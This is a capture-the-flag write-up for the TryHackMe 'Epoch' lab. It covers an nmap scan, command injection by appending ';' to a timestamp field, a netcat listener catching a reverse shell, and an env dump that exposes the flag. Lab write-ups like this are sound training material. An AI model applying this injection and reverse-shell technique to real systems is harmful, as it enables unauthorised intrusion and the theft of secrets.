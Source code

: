 ```yaml
---
layout: post
author: L0
---
```


# THM-Epoch

![image](/images/Pasted image 20221114224437.png)

## Enumeration

### nmap

```shell
$ nmap -sV -p- epoch.thm
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-14 16:48 EST
Nmap scan report for epoch.thm (10.10.64.230)
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
1 service unrecognized despite returning data.
```

open ports
- `22` ssh service
- `80` unrecognized service

### website


![image](/images/Pasted image 20221114225256.png)

websites coverts unix epoch timestamp (seconds since 01.01.1970 0:00:00) to UTC time.

![image](/images/Pasted image 20221114225706.png)

it is very easy to exploit. just put a `;` after the number and type your own command. next i will launch a reverse shell to get access to the machine.

### reverse shell

![image](/images/Pasted image 20221114230143.png)

this is the command i used to execute the shell.

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.64.230] 36932
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ id
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
challenge@e7c1352e71ec:~$
```

and here i got access to the system.

after checking out all files in the home directory testing for common privileges escalation vectors i found something in the environment variables.

```shell
challenge@e7c1352e71ec:/home$ env
env
HOSTNAME=e7c1352e71ec
PWD=/home
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{7da***************************47}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/
```

flag found and box done.

[L0]